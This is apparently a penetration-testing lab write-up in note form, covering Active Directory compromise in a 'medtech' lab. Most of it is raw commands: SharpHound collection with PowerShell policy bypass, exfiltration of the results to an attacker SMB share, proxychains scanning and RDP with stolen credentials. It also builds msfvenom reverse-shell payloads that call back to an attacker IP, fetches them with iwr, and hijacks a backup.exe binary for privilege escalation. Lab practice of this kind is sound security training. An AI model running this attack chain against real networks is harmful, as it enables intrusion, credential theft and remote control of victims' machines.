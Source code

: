 From .83 as admin
```
cp /usr/lib/bloodhound/resources/app/Collectors/SharpHound.ps1 .
iwr -uri http://192.168.45.242:8000/SharpHound.ps1 -Outfile SharpHound.ps1
powershell -ep bypass
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All

# from wario shell
impacket-smbserver -smb2support -user wario -password Mushroom\! smb smb 

net use \\192.168.45.242\smb /user:"wario" "Mushroom!"
copy 20231121125929_BloodHound.zip \\192.168.45.242\smb

sudo neo4j start
bloodhound # pw = kalitest

Find shortest path to domain admins
```
From bloodhound we discover that
- leon is domain admin
- leon has a session on DEV04 (12) meaning we can steal his creds or impersonate him to gain domain admin access
We also know that
- leon's username is LOCKED on both dev04 and the domain controller
- yoshi can login on 12
- we find the users mario and peach as well
``` 
# figure out what ports are open to see if we can rdp
```
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -F 172.16.249.12
```

# use RDP to gain local yoshi access
sudo proxychains xfreerdp /v:172.16.188.12 /u:yoshi /p:Mushroom\! /cert-ignore /compression /auto-reconnect /d:medtech.com

# get a better shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=7777 -f exe -o shell12.exe
nc -nvlp 7777

iwr -uri http://192.168.45.242:8000/shell12.exe -Outfile shell.exe
./shell.exe
```
found `C:\TEMP\backup.exe`
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.242 LPORT=9998 -f exe -o shell-12.exe
nc -nvlp 9998

iwr -uri http://192.168.45.242:8000/Watch-Command.ps1 -Outfile Watch-Command.ps1

iwr -uri http://192.168.45.242:8000/shell-12.exe -Outfile backup.exe
move C:\TEMP\backup.exe C:\TEMP\backup.exe.bak
move .\backup.exe C:\TEMP\

Import-Module C:\Users\yoshi\Watch-Command.ps1
Get-Process backup -ErrorAction SilentlyContinue | Watch-Command -Difference -Continuous -Seconds 30
```
